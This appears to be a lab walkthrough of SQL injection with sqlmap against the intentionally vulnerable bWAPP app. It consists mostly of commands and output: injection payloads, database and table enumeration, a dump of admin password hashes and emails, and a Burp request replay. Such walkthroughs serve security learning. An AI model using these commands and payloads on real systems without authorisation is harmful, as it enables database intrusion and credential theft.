


# SQL injection with sqlmap

Start with nmap
```
nmap 192.161.23.3
Starting Nmap 7.70 ( https://nmap.org ) at 2021-04-02 16:43 IST
Nmap scan report for target-1 (192.161.23.3)
Host is up (0.000015s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
3306/tcp open  mysql
MAC Address: 02:42:C0:A1:17:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.23 seconds
```

Some app require cookies to work

This can be intercepted with Burp



## Start sqlmap

Syntax: `sqlmap -u [link] --cookie [cookie] -p title

`-p` : testable parameters

```
sqlmap -u "http://192.161.23.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=7t497fao6opkrgpjstfdcughm2; security_level=0" -p title
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.5#stable}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 16:55:00 /2021-04-02/

[16:55:00] [INFO] resuming back-end DBMS 'mysql' 
[16:55:00] [INFO] testing connection to the target URL
[16:55:01] [WARNING] potential CAPTCHA protection mechanism detected
...

GET parameter 'title' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 122 HTTP(s) requests:
---
Parameter: title (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: title=hello' OR NOT 5369=5369#&action=search

    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: title=hello' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x717a706a71,(SELECT (ELT(1670=1670,1))),0x7178787671,0x78))s), 8446744073709551610, 8446744073709551610)))-- HIKF&action=search

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: title=hello' AND (SELECT 1632 FROM (SELECT(SLEEP(5)))jtBF)-- oEvg&action=search

    Type: UNION query
    Title: MySQL UNION query (NULL) - 7 columns
    Payload: title=hello' UNION ALL SELECT NULL,NULL,CONCAT(0x717a706a71,0x424d676372676573464b7746686d6f7942787a7742634978756f79527673536c734a524c78726b76,0x7178787671),NULL,NULL,NULL,NULL#&action=search
---
[16:54:25] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.5
[16:54:25] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.161.23.3'
[16:54:25] [WARNING] you haven't updated sqlmap for more than 334 days!!!

[*] ending @ 16:54:25 /2021-04-02/
```
Payload suggested

## Get a list of databases

```
sqlmap -u "http://192.161.23.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=7t497fao6opkrgpjstfdcughm2; security_level=0" -p title --dbs
...

[17:00:36] [INFO] fetching database names
available databases [4]:
[*] bWAPP
[*] information_schema
[*] mysql
[*] performance_schema
```

## Get a list of tables from a database

```
sqlmap -u "http://192.161.23.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=7t497fao6opkrgpjstfdcughm2; security_level=0" -p title bWAPP --tables
...
[17:02:34] [INFO] fetching tables for databases: 'bWAPP, information_schema, mysql, performance_schema'
Database: information_schema
[40 tables]
+----------------------------------------------+
| CHARACTER_SETS                               |
| COLLATIONS                                   |
| COLLATION_CHARACTER_SET_APPLICABILITY        |
| COLUMN_PRIVILEGES                            |
| ENGINES                                      |
| EVENTS                                       |
...
 Database: bWAPP
[5 tables]
+----------------------------------------------+
| blog                                         |
| heroes                                       |
| movies                                       |
| users                                        |
| visitors                                     |
+----------------------------------------------+
...
```

## Get a list of columns

```
sqlmap -u "http://192.161.23.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=7t497fao6opkrgpjstfdcughm2; security_level=0" -p title bWAPP -T users --columns
...
[17:04:42] [INFO] fetching columns for table 'users' in database 'bWAPP'
Database: bWAPP
Table: users
[9 columns]
+-----------------+--------------+
| Column          | Type         |
+-----------------+--------------+
| admin           | tinyint(1)   |
| id              | int(10)      |
| password        | varchar(100) |
| activated       | tinyint(1)   |
| activation_code | varchar(100) |
| email           | varchar(100) |
| login           | varchar(100) |
| reset_code      | varchar(100) |
| secret          | varchar(100) |
+-----------------+--------------+
...
```

## Dump password and email for admin and user table

```
sqlmap -u "http://192.161.23.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=7t497fao6opkrgpjstfdcughm2; security_level=0" -p title -D bWAPP -T users -C admin,password,email --dump
...
Database: bWAPP
Table: users
[2 entries]
+---------+------------------------------------------+--------------------------+
| admin   | password                                 | email                    |
+---------+------------------------------------------+--------------------------+
| 1       | 6885858486f31043e5839c735d99457f045affd0 | bwapp-aim@mailinator.com |
| 1       | 6885858486f31043e5839c735d99457f045affd0 | bwapp-bee@mailinator.com |
+---------+------------------------------------------+--------------------------+
...
```

##

Save request from Burp to a file



```
cat request 
POST /sqli_6.php HTTP/1.1
Host: 192.161.23.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.161.23.3/sqli_6.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Connection: close
Cookie: PHPSESSID=7t497fao6opkrgpjstfdcughm2; security_level=0
Upgrade-Insecure-Requests: 1
```

Run sqlmap 
```
sqlmap -r request -p title
...
POST parameter 'title' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 119 HTTP(s) requests:
---
Parameter: title (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: title=Hello' OR NOT 3616=3616#&action=search

    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: title=Hello' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x71786b6271,(SELECT (ELT(2889=2889,1))),0x71626a6271,0x78))s), 8446744073709551610, 8446744073709551610)))-- OuVh&action=search

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: title=Hello' AND (SELECT 9174 FROM (SELECT(SLEEP(5)))tXAH)-- AiKi&action=search

    Type: UNION query
    Title: MySQL UNION query (NULL) - 7 columns
    Payload: title=Hello' UNION ALL SELECT NULL,CONCAT(0x71786b6271,0x794f7a6a5a6f426c42495651684f6969596c65745876535965587068665445734a56465a736d726a,0x71626a6271),NULL,NULL,NULL,NULL,NULL#&action=search
---
```

sqlmap found vulnerability and suggested payloads


